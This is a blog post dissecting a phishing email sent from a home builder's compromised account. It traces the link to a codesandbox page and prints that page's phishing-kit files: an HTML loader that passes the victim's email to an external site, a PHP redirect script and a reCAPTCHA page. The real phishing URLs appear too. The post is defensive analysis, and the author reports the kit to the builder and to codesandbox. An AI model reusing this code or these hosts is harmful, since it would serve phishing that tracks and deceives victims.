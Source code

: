 +++
title = "Breaking Down a Phishing Attempt"
date = 2022-05-10T06:56:11Z
description = "A look at a phishing attempt on me today"
draft = false
tags = ["security"]
tracking_area = "javascript"
tracking_id = ""
+++

Today my wife and I received the following email from our builder:

![Phishing email](/images/2022-05-10-breaking-down-a-phishing-attempt/01.png)

Well, more specifically, we received it from the sales consultant at the builder who we did the initial tender through about 2 years ago and haven't been in contact with since.

So, getting an email from them seemed somewhat weird, but at the same time, we're just about finished with our build so we thought it might be some closing paperwork.

But it wasn't, it was a [phishing attack](https://en.wikipedia.org/wiki/Phishing), and a pretty darn impressive one at that. If you look at the email you'll notice (redacted) email footer with disclaimer, this was all correct details, down to the mobile phone number of the individual and the text in the disclaimer, it all matches with previous emails we'd had.

The email came into the joint email account my wife and I share, I didn't read it but she asked me why she couldn't access it - she needed the password to the joint account to do so. This triggered a red flag with me so I decided to have a look at it.

## Legit on first pass

What really got me about this was just how _real_ the email looked, it's attempting to mimic the information rights management (IRM) of M365 which allows you to share a document from our SharePoint environment to someone outside of your organisation. It works by sending them back to your M365 tenant where you have to provide an access token and your email (token is emailed separately) to then give you access to the document.

It's really cool tech for allowing a company to share sensitive content to people outside of their organisation in a trusted way, and still hold onto the trust aspect, rather than just emailing attachments which you can't track ownership of, or be sure they haven't been intercepted in a person-in-the-middle attack.

But it seemed a bit _off_ with the text in the email, _Good Day, Please see attached._. This is not the best english and the use of capitalisation seems _off_, indicating that something isn't quite right about it.

Time to snoop.

## Where's the link go

There's a big **View Message** button in the middle, which you're obviously meant to click, and this is the start of the attack. Hovering over the link it clearly wasn't right, it was going to `https://8097685657-evkpl8.codesandbox.io/?email=`.

I'm pretty confident that M365 IRM isn't running on codesandbox.io, but let's take a look at it anyway.

![Phishing site](/images/2022-05-10-breaking-down-a-phishing-attempt/02.png)

Ok, interesting, a ReCapture challenge and a submit button, that's not that interesting. I popped the browser devtools and had a look around, still, nothing that interesting, but given it's on codesandbox, we can have a look at the raw files at `https://codesandbox.io/s/8097685657-evkpl8`.

## Digging through the code

There's four files in the "app", a `package.json` and `sandbox.config.json`, both of which were clearly just generated from a basic template, then there's the `index.html` that we get served:

```html
<object
    data="https://contelis.com.br/wp?email="
    id="obj"
    width="100%"
    height="100%"
    type="text/html"
>
    Link Expired
</object>

<script type="text/javascript">
    function getUrlVars() {
        var vars = {};
        var parts = window.location.href.replace(
            /[?&]+([^=&]+)=([^&]*)/gi,
            function(m, key, value) {
                vars[key] = value;
            }
        );
        return vars;
    }

    var email = window.location.hash.substr(1);
    if (!email) {
        var email = getUrlVars()["email"];
        document
            .getElementById("obj")
            .setAttribute("data", "https://contelis.com.br/wp?email=" + email);
    } else {
        document
            .getElementById("obj")
            .setAttribute("data", "https://contelis.com.br/wp?email=" + email);
    }
</script>
```

So it's looking at the `email` query string and then loading up another website in an `<object>` tag, which it full screens. This means that the page `https://contelis.com.br/wp` is really where the code lives.

Interestingly enough, there's also a `index.php` file:

```php
<?php
 $oslo=rand();
 $praga=md5($oslo);
 $url="http://".$_SERVER['HTTP_HOST'].$_SERVER['REQUEST_URI'];
 parse_str(parse_url($url, PHP_URL_QUERY));
 $domain = explode('@', $email);

 $domain_check = '@'.strtolower($domain[1]);

 if(stripos($domain_check, '@hotmail.') !== false || stripos($domain_check, '@outlook.') !== false || stripos($domain_check, '@office365.') !== false){
  header('Location: https://'.$praga.'-kve7vl.csb.app'.$email);
 }

 else {
  header('Location: https://'.$praga.'-kve7vl.csb.app'.$email);
 }

?>
```

It's been a **long** time since I've written PHP but my understanding of the code is that it looks at the email address, and if it's a "microsoft" property, you get redirected to one site, otherwise you get directed to a different site, all using the `Location` header... although if I understand the code right, you end up at the same site regardless, and both sites seem to be on codesandbox as well, as `csb.app` is the short link that they use.

Following that link lands you at an identical codesandbox by the same author, so I'm unsure exactly what the point of it is, my guess is that it's only part of a file, maybe the one of `contelis.com.br`.

Speaking of page at `contelis.com.br`, it's really simple HTML, all it's doing it loading up ReCapture and interestingly enough, the **actual** ReCapture, not some mock up, so you can fail it!

```html
<!DOCTYPE html>
<html>
    <head>
        <title></title>
        <script
            src="https://www.google.com/recaptcha/api.js"
            async
            defer
        ></script>
    </head>

    <body>
        <center>
            <br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br />
            <form method="POST" action="">
                <div class="form-group">
                    <div
                        class="g-recaptcha"
                        name="g-recaptcha"
                        data-sitekey="6Lfx39ofAAAAAHjix51F6EBGCmAppT-UVw0CNdQO"
                    ></div>
                </div>
                <br /><button
                    style="width: 100px; height: 50px;"
                    type="submit"
                    name="submit"
                >
                    submit
                </button>
            </form>
        </center>
    </body>
</html>
```

There's no `<input>` fields on the page, so you're not going to be submitting any _new_ data to the server, so my guess is that there's something server-side that I can't see, probably storing the value of the `email` query string. I also do like the use of the `<br>` tag to add whitespace, plus a `<center>` tag - HTML at its finest!

## What's the point

This is about as far as I was about to dig through and it left me wondering just what the point of this phishing attack was. My guess is that it's being used to harvest email addresses and verify that they are legit by looking at who clicked through the email, essentially, generating a database of "gullible fools" that would click on this sort of thing.

But looking at the email source the query string was **never** set, meaning that the point of capturing the email by using the information on the click through never did work - it was just not there, so I'm a bit at a loss.

The other thing I found fascinating is the level of sophistication in the email, down to the footer with contact details of the original victim and that the email headers suggest it came from the building companies systems. This suggests that it was probably done through a virus on the original victims machine, rather than a random phishing service.

We contacted the builder and informed them of the email and a few hours later an email from the CEO went out addressing it and apologising, so I'm glad they acknowledged the problem.

I've also reported the account to codesandbox, so it'll be up to them to take it down.

Overall, it was a bit of fun pulling this little attempt at phishing me apart.
